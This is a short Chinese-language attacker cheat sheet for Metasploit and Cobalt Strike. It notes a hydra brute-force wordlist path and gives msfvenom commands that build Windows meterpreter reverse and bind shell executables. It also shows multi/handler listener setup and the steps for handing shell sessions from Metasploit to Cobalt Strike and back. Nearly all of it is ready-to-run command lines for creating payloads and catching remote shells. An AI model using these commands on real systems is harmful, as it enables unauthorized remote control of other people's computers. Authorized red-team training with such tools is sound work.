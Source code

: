 
## 爆破

hydra

rockyou 文件路径
/usr/share/wordlists/rockyou.txt

## MSF常用指令

生成meterpreter

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.52.10 LPORT=4444  -f exe > 1.exe

msfvenom -p windows/x64/meterpreter/bind_tcp RPORT=4444  -f exe > 1.exe
```

监听端口

```bash
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 127.0.0.1
set lport 4444
run
```

## metasploit与Cobaltstrike互相派生shell

### msf -> coblatstrike

msf 派生 shell 给 Cobalt strike（前提有一个meterpreter）,Coblat要监听HTTP类型，IP端口为LHOST、LPORT

```bash
msf exploit(handler) >  use exploit/windows/local/payload_inject
msf exploit(payload_inject) >  set PAYLOAD windows/meterpreter/reverse_http
msf exploit(payload_inject) > set DisablePayloadHandler true
msf exploit(payload_inject) > set LHOST 192.168.229.143
msf exploit(payload_inject) > set LPORT 1212
msf exploit(payload_inject) > set SESSION 1
msf exploit(payload_inject) > exploit
```

### coblatstrike -> msf

Cobalt strike 派生 shell 给 MSF(前提有个beacon shell)

```
msf > use exploit/multi/handler 
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 192.168.1.100
lhost => 192.168.1.100
msf exploit(handler) > set lport 5555
lport => 5555
msf exploit(handler) > exploit
```

之后使用Cobalt Strike创建一个
windows/foreign/reverse_tcp Listener
其中ip为msf的ip地址，端口为msf所监听的端口。
然后选中计算机，右键->Spawn，选择刚刚创建的监听器
msf中即可看到成功获取了meterpreter会话
